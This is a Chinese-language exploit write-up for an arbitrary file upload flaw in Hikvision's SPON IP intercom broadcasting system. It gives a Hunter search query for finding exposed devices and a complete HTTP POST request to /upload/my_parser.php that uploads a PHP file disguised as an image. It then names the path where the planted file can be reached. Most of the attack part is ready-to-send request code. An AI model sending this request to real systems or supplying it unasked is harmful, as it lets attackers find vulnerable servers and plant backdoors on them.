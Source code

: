 # 海康威视SPON IP网络对讲广播系统my_parser存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统my_parser存在任意文件上传漏洞，恶意攻击者可能会上传恶意的后门文件，使服务器失陷。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/eeomSk6Be4UoNr4r/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-443930.png)

# 四、漏洞复现
```java
/upload/upload.html
```

![1704857171496-32b9c84a-3439-4941-90e7-dc4b2f2264e6.png](./img/eeomSk6Be4UoNr4r/1704857171496-32b9c84a-3439-4941-90e7-dc4b2f2264e6-022312.png)

```java
POST /upload/my_parser.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8dsf2vRYZDVPaW9m
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 139243

------WebKitFormBoundary8dsf2vRYZDVPaW9m
Content-Disposition: form-data; name="upload"; filename="tt.php"
Content-Type: image/jpeg

1111111
------WebKitFormBoundary8dsf2vRYZDVPaW9m--
```

![1704857288482-ca32fb5c-937a-4ecf-b86c-91a298e5a38a.png](./img/eeomSk6Be4UoNr4r/1704857288482-ca32fb5c-937a-4ecf-b86c-91a298e5a38a-336677.png)

上传文件位置

```java
/upload/files/tt.php
```

![1704857320066-c828b2fe-fc1c-4f32-a9b1-3ae9e5d73100.png](./img/eeomSk6Be4UoNr4r/1704857320066-c828b2fe-fc1c-4f32-a9b1-3ae9e5d73100-761362.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dgm1h4giy6i2k3ys>